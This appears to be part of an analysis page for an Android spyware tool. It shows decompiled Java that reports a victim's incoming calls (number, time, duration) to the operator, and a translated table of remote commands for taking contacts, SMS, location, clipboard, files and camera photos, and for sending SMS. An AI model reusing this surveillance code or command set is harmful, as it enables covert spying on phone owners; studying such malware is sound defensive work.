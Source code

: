 ```java
    case 0:
        append = new StringBuilder().append("تماس دریافتی⬇️\nاز شماره:\n").append(str2).append(Common.CRLF).append("تاریخ👈🏻").append(_am.getDate(0, 0, 0, "/")).append(Common.CRLF).append("ساعت⏱");
        dateTime = Common.DateTime;
        dateTime = Common.DateTime;
        _send_message(append.append(DateTime.Time(DateTime.getNow())).toString());
        break;
    case 1:
        if (_isoffhook) {
            append = new StringBuilder().append("تماس دریافتی پایان یافت⏹️\nاز شماره:\n").append(str2).append(Common.CRLF).append("مدت تماس: ").append(C0006BA.NumberToString(_timecall)).append(" ثانیه").append(Common.CRLF).append("تاریخ👈🏻").append(_am.getDate(0, 0, 0, "/")).append(Common.CRLF).append("ساعت⏱");
            dateTime = Common.DateTime;
            dateTime = Common.DateTime;
            _send_message(append.append(DateTime.Time(DateTime.getNow())).toString());
            _timercalls.setEnabled(false);
            _timecall = 0;
        } else {
            append = new StringBuilder().append("تماس دریافتی توسط هدف قطع شد🚫️\nاز شماره:\n").append(str2).append(Common.CRLF).append("تاریخ👈🏻").append(_am.getDate(0, 0, 0, "/")).append(Common.CRLF).append("ساعت⏱");
            dateTime = Common.DateTime;
            dateTime = Common.DateTime;
            _send_message(append.append(DateTime.Time(DateTime.getNow())).toString());
            _timercalls.setEnabled(false);
            _timecall = 0;
        }
        _isoffhook = false;
        break;
    case 2:
        _isoffhook = true;
        _timercalls.setEnabled(true);
        break;
}
return "";
}

```


## List of commands*

**Command**|**Translation**
:-----:|:-----:
دریافت مخاطبین|Get contacts
دریافت کلیپ بورد|Get the clipboard
Clipboard set:[text]| 
دریافت مکان|Get location
دریافت اطلاعات شارژ|Receive charging information
All file list:/[path]| 
Root file list:/[path]| 
دریافت برنامه ها|Get apps
1Downloadfile/[filename]| 
2Downloadfile/[filename]| 
CreateContact/[name]/[number]| 
SetWallpaper http[URL]| 
دریافت پیام ها|Receive (SMS) messages
Sendsmsfor/[destination]/[text]| 
MessageShow[text]| 
گرفتن عکس1|Take photo 1 (front camera)
گرفتن عکس2|Take photo 2 (back camera)
دریافت وضعیت|Get status